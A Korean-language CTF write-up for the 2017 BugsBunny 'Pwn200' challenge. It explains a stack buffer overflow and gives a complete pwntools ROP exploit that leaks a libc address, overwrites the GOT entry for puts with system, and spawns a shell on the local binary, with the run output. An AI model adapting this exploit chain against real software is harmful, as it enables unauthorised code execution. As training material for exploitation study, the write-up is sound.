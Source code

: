 # 2017 bugsbunny - [PWN] Pwn200

## Key words

- overwrite got

## Check Security

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## Solution

```
ssize_t lOL()
{
  int buf; // [sp+0h] [bp-18h]@1
  int v2; // [sp+4h] [bp-14h]@1
  int v3; // [sp+8h] [bp-10h]@1
  int v4; // [sp+Ch] [bp-Ch]@1

  buf = 0;
  v2 = 0;
  v3 = 0;
  v4 = 0;
  return read(0, &buf, 0x80u);
}
```

이번 문제 역시 스택 버퍼오버플로우가 발생하는 예제 입니다. `NX`가 꺼져있기 때문에 간단하게 `bss` 영역에 쉘코드를 올리고 뛰어도 되지만 조금 다르게 해보도록 하겠습니다.

먼저 `puts`를 이용하여 `__libc_start_main@got`를 노출 시켜 라이브러리 베이스 주소를 구하고 이를 이용하여 `system` 주소를 구합니다. `bss`영역에 `/bin/sh\x00`을 써놓고 `puts@got`를 `system`주소로 변경한 뒤, `puts(bss)`를 하게 되면 결국엔 `system("/bin/sh\x00")`이 호출되게 되어 쉘을 획득 할 수 있습니다.

## Exploit Code

```python
from pwn import *

target = "./pwn200"

p    = process(target)
e    = ELF(target)

pppr = 0x08048599
pr   = pppr + 2
bss  = 0x0804a000

print p.recv()

payload = "A" * 0x18 + "B" * 4
payload += p32(e.plt['puts'])
payload += p32(pr)
payload += p32(e.got['__libc_start_main'])
payload += p32(e.plt['read'])
payload += p32(pppr)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
payload += p32(e.plt['read'])
payload += p32(pppr)
payload += p32(0)
payload += p32(e.got['puts'])
payload += p32(4)
payload += p32(e.plt['puts'])
payload += p32(pr)
payload += p32(bss)

p.sendline(payload)

recv = p.recv().split("\n")[-2][:4]
libc_base = u32(recv) - 0x18540
system = libc_base + 0x3a940

log.info("libc base : {}".format(hex(libc_base)))
log.info("system    : {}".format(hex(system)))

p.send("/bin/sh\x00")
p.send(p32(system))
p.interactive()
```

## Result

```
tbkim@ubuntu:~/ctf/pwnable/0015_2017_bugsbunny_pwn200$ python sol_pwn200.py 
[+] Starting local process './pwn200': pid 5482
[*] '/home/tbkim/ctf/pwnable/0015_2017_bugsbunny_pwn200/pwn200'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
Welcome to BugsBunnyCTF!
Its all easy you should solve it :D?

[*] libc base : 0xf754b000
[*] system    : 0xf7585940
[*] Switching to interactive mode
$ id
uid=1000(tbkim) gid=1000(tbkim) groups=1000(tbkim)
```
